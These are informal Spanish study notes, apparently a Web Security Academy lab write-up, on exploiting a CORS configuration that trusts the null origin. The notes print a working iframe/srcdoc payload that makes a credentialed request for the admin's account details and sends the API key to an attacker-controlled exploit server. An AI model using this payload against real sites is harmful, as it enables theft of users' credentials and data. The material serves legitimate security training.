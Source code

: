 En esta clase continuamos con el análisis de configuraciones inseguras de CORS, centrándonos en un caso donde el servidor confía en peticiones con origen null. Este tipo de comportamiento suele verse cuando se permiten solicitudes desde documentos cargados mediante iframes con ‘**sandbox**‘ y ‘**srcdoc**‘, lo cual representa un riesgo si además se permite el uso de cookies mediante ‘**Access-Control-Allow-Credentials**‘.

Aprovechamos esta vulnerabilidad para extraer la clave API del administrador. Para ello, construimos un exploit con un iframe que lanza una petición **XMLHttpRequest** desde un origen null, lo que permite al navegador incluir las cookies del administrador y acceder a información sensible. Finalmente, redirigimos la respuesta al registro del exploit server, lo que nos permite visualizar y enviar la clave para resolver el laboratorio.

Solucion
realizamos lo mismo no logeamos u en la respuesta del BS le damos forward y una ves ahi mandamos al repeater nuestra solicitud
![Pasted image 20250728205329.png](imagenes/Pasted image 20250728205329.png)
y bueno en la respuesta ene ACAC tenemos un true el cual podemos llegar a pensar que podemos tener un origin pero no sabes a cual asi que nosotros podemos mandar un NULL
y no lo acepta
![Pasted image 20250728205717.png](imagenes/Pasted image 20250728205717.png)

esto lo vamos a reflejar en un script de estilo iframe
(<iframe sandbox="allow-scripts" srcdoc='<script>
    var req = new XMLHttpRequest();
    req.onload = function() {
        location = 'https://exploit-0ab100c10401b08b806f5c8501ae002d.exploit-server.net/?apikey=' + btoa(req.responseText);
    };
    req.open('GET', 'https://0aeb00ce041cb072800e5dff00c20099.web-security-academy.net/accountDetails', true);
    req.withCredentials = true;
    req.send();
</script></iframe>)


Y con esto si revisamos de nuevo los logs obtendremos la apikey

![Pasted image 20250728211153.png](imagenes/Pasted image 20250728211153.png)


![Pasted image 20250728211359.png](imagenes/Pasted image 20250728211359.png)

y con esto lo convertimos a null
